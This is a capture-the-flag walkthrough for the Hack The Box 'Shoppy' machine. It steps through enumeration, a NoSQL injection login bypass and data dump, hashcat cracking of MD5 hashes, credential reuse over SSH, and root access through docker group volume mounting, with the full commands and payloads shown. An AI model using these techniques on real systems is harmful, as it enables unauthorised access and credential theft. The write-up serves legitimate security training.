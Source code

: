 ```yaml
---
cover: ../../../../.gitbook/assets/Shoppy.png
coverY: 250.98666666666665
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Shoppy



## Scanning

### Network

First, add the virtual DNS :

```bash
echo '10.10.11.180 shoppy.htb'|tee -a /etc/hosts
```

Scan the target host :

```bash
nmap shoppy.htb
```

The output is :&#x20;

<figure><img src="../../../../.gitbook/assets/shoppy-nmap.png" alt=""><figcaption></figcaption></figure>

Go to http://shoppy.htb and you will have this page :&#x20;

<figure><img src="../../../../.gitbook/assets/shoppy-htb.png" alt=""><figcaption></figcaption></figure>

### Web

Try to enumerate subdirectories with `dirbuster` or `wfuzz` :

```bash
wfuzz -u http://shoppy.htb/FUZZ -w /usr/share/wordlists/dirb/common.txt --hc 404
dirbuster -u http://shoppy.htb -l /usr/share/wordlists/dirb/common.txt
```

<figure><img src="../../../../.gitbook/assets/shoppy-wfuzz.png" alt=""><figcaption></figcaption></figure>

Scan subdomains.

```bash
wfuzz -u http://stocker.htb \
      -H "Host: FUZZ.shoppy.htb" \
      --hc 301 \
      -w /usr/share/secLists/master/Discovery/DNS/subdomains-top1million-110000.txt
```

Try to go to http://shoppy.htb/admin and you get this result : &#x20;

<figure><img src="../../../../.gitbook/assets/shoppy-login.png" alt=""><figcaption></figcaption></figure>

It seems to be a custom page, try sql injection :&#x20;

<figure><img src="../../../../.gitbook/assets/shoppy-injection.png" alt=""><figcaption></figcaption></figure>

It works, you get this page :&#x20;

<figure><img src="../../../../.gitbook/assets/shoppy-admin-panel.png" alt=""><figcaption></figcaption></figure>

You can inject code to return all data and download the JSON file :

```sql
'; return '' == '
```

```json
[
    {
        "_id":"62db0e93d6d6a999a66ee67a",
        "username":"admin",
        "password":"23c6877d9e2b564ef8b32c3a23de27b2"
    },
    {
        "_id":"62db0e93d6d6a999a66ee67b",
        "username":"josh",
        "password":"6ebcea65320589ca4f2f1ce039975995"
    }
]
```

There are two hashed passwords : `23c6877d9e2b564ef8b32c3a23de27b2` and `6ebcea65320589ca4f2f1ce039975995`. Crack these hashes with Hashcat :

```bash
echo '23c6877d9e2b564ef8b32c3a23de27b2 6ebcea65320589ca4f2f1ce039975995'|tee hashes.txt
hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt
hashcat --show -m 0 hashes.txt /usr/share/wordlists/rockyou.txt
```

Hashcat has cracked a hash for josh :

```
6ebcea65320589ca4f2f1ce039975995:remembermethisway
```

Thus you have credentials `josh:remembermethisway`.&#x20;

You get the subdomain `mattermost.shoppy.htb`. Thus go to http://mattermost.shoppy.htb.

<figure><img src="../../../../.gitbook/assets/shoppy-mattermost-login.png" alt=""><figcaption></figcaption></figure>

Try the credentials `josh:remembermethisway`. Go to "Deploy Machine" tab and you will find new credentials.

<figure><img src="../../../../.gitbook/assets/shoppy-ssh-credentials.png" alt=""><figcaption></figcaption></figure>

Try the SSH connection :

```bash
ssh jaeger@shoppy.htb  # password "Sh0ppyBest@pp!"
```

<figure><img src="../../../../.gitbook/assets/shoppy-ssh-josh.png" alt=""><figcaption></figcaption></figure>

```bash
cat /home/jaeger/user.txt
```

Then, list sudo permissions :

```bash
sudo -l
```

<figure><img src="../../../../.gitbook/assets/shoppy-sudo.png" alt=""><figcaption></figcaption></figure>

Import file from the target machine to the attacker to decompile it.

```bash
# target
cd /home/deploy/
python3 -m http.server
```

```bash
curl -o password http://shoppt.htb:8000/password-manager
```

Start Ghidra and decompile the file.

<figure><img src="../../../../.gitbook/assets/shoppy-sample.png" alt=""><figcaption></figcaption></figure>

Try to execute the following command on the target machine :

```bash
sudo -u deploy /home/deploy/password-manager  # password "Sample"
```

The password is valid, it returns new credentials `deploy:Deploying@pp!`. Try these credentials with SSH :

```bash
ssh deploy@shoppy.htb  # password "Deploying@pp!"
```

It works and the user deploy has the group `docker`.

```bash
docker images
```

There is an existing image named `alpine`. Mount the folder `/root` in on `/mnt` :

```bash
docker run -it -v /root:/mnt alpine
```

Once you're inside of the container, you can find the flag in `/mnt` folder :

```bash
cat /mnt/root.txt
```

